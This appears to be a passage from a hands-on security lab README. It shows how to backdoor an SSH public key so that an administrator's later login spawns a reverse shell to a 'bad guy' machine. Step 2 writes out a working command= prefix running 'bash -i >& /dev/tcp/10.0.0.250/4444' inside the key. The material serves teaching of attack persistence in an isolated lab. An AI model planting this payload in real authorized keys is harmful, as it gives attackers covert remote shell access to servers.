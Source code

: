 Following are a few mini-labs that demonstrate how to add payloads to the public key.

## Lab #1 - Just calling home

1) If you haven't already done it, connect to the admin workstation, geneerate the SSH RSA keypair, and open the public key in your text editor.
   ```c
   vi ~/.ssh/id_rsa.pub
   ```

2) Just before the "ssh-rsa" add the following and leave a space between the last character and "ssh-rsa":
   ```c
   command="eval $(bash -i >& /dev/tcp/10.0.0.250/4444 0>&1 & bash -i)" ssh-rsa...
   ```
   Do not modify anything after the "ssh-rsa".  The first line of the public key should now look something like:

3) Save the changes and exit the text editor.  You should now be back at the command prompt on the ADMIN machine.

4) Copy the public key to 10.0.0.2 (the server) by running the following:

   ```c
   ssh-copy-id admin@10.0.0.2
   ```

   When you receive the "Are you sure...?" prompt, type "yes" (without the quotes) and press the Enter key.

   When asked for the password, type "admin" and press the Enter key.

   What this does is simulate what a system administrator would do to set up key-based authentication between their workstation and one or more servers that they'll want to manage.  In short, the "ssh-copy-id" command installs the public key on the new machine.

5) Connect to the server by running the following.  When you press enter, pay attention to the "BAD GUY" window.

   ```c
   ssh admin@10.0.0.2
   ```

   In the "ADMIN" window, you should notice that the prompt has changed to "admin@SERVER".  This means that you've connected to the "SERVER" machine.

   In the "BAD GUY" window, you should see that a connection was made back to your "bad guy machine".  Now, anything that you type in the "BAD GUY" window will be executed on the SERVER.  You can't really do mcuh with this connection but it demonstrates that a connection can be made.

If you experiment, you'll notice that there's a number of problems with the connections that need correction. One of these is that the connections are "crashy".  Another is that the real admin cannot do much. (Hint: there's others...)

6) In the terminal that's not in your browser, reset the lab by running the following:

   ```c
   ./destroy
   ./build
   ```
